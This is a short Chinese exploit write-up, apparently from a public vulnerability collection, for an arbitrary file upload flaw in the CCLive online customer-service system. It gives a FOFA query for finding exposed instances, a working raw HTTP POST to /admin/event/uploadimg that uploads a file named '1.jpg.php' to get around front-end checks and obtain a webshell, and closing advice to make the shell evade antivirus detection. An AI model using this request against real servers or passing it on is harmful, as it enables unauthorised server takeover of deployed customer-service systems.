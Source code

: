 ## CCLive在线客服存在任意文件上传

## 漏洞描述

CCLive在线客服系统存在任意文件上传，可通过上传图片马进行getshell

## 漏洞影响

> CCLive在线客服系统

## FOFA

> title="CCLive在线客服系统"

## 漏洞复现

登录界面如下：

![1](resource/CCLive/1.png)



然后直接访问URL进入在线客服页面，然后从图片上传处进行抓包

```
/index/index/home?visiter_id=&visiter_name=&avatar=&business_id=1&groupid=0&special=1 
```

![2](resource/CCLive/2.png)



![3](resource/CCLive/3.png)

将png后缀修改为php,以这样的方式来绕过前端验证。

```
POST /admin/event/uploadimg HTTP/1.1
Host: url
Cookie: PHPSESSID=utrvj3a4vmncvmiaknccmt17nr
Content-Length: 721
Accept: application/json, text/javascript, */*; q=0.01
Origin: url
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36 SE 2.X MetaSr 1.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryWvBQTUlpjNAdVfUt
Referer: url/index/index?code=v9zzfNPShXGiImqm%2BjTb52DPR%2B%2BcnjEIFN4Q%2BfnbLgkNxmOgGDfmOzNSL49%2B0SCZHhjvyJZc%2BNPFyOv33HNisSF5hkaZW0w4QFZkqCzXmWx9Bi0GXxAdBo0MVIuqTye2XlFYUQ
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Connection: close

------WebKitFormBoundaryWvBQTUlpjNAdVfUt
Content-Disposition: form-data; name="editormd-image-file"; filename="1.jpg.php"
Content-Type: image/png

text

------WebKitFormBoundaryWvBQTUlpjNAdVfUt
Content-Disposition: form-data; name="visiter_id"

YKs5EmtR
------WebKitFormBoundaryWvBQTUlpjNAdVfUt
Content-Disposition: form-data; name="business_id"

zzcc520
------WebKitFormBoundaryWvBQTUlpjNAdVfUt
Content-Disposition: form-data; name="avatar"

/assets/images/index/avatar-red2.png
------WebKitFormBoundaryWvBQTUlpjNAdVfUt
Content-Disposition: form-data; name="record"


------WebKitFormBoundaryWvBQTUlpjNAdVfUt
Content-Disposition: form-data; name="service_id"

13
------WebKitFormBoundaryWvBQTUlpjNAdVfUt--
```

![4](resource/CCLive/4.png)

从网页端来访问下看看是否可以访问到

![5](resource/CCLive/5.png)

最后，马子记得免杀。